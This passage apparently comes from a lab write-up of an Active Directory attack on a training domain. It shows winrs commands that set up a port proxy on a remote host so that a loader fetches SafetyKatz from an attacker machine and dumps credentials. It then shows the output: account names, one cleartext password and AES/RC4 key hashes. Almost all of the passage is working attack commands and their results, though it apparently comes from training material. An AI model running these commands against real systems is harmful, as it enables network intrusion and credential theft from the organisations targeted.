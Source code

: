 add the portforwarding and extract credentials:

```powershell
winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.67"
winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe "sekurlsa::Evasive-keys" "exit"
```

```powershell
Authentication Id : 0 ; 6198905 (00000000:005e9679)
Session           : Interactive from 2
User Name         : UMFD-2
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/11/2025 4:24:00 AM
SID               : S-1-5-96-0-2

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(`?yW`E8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41`*/$^4+EeZ07?zF2Z3`:[Jd*F/z_P`p6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 6155000 (00000000:005deaf8)
Session           : Interactive from 0
User Name         : mgmtadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/11/2025 4:16:32 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1120

         * Username : mgmtadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       902129307ec94942b00c6b9d866c67a2376f596bc9bdcf5f85ea83176f97c3aa
           rc4_hmac_nt       95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old      95e2cd7ff77379e34c6e46265e75d754
           rc4_md4           95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_nt_exp   95e2cd7ff77379e34c6e46265e75d754
           rc4_hmac_old_exp  95e2cd7ff77379e34c6e46265e75d754

Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
```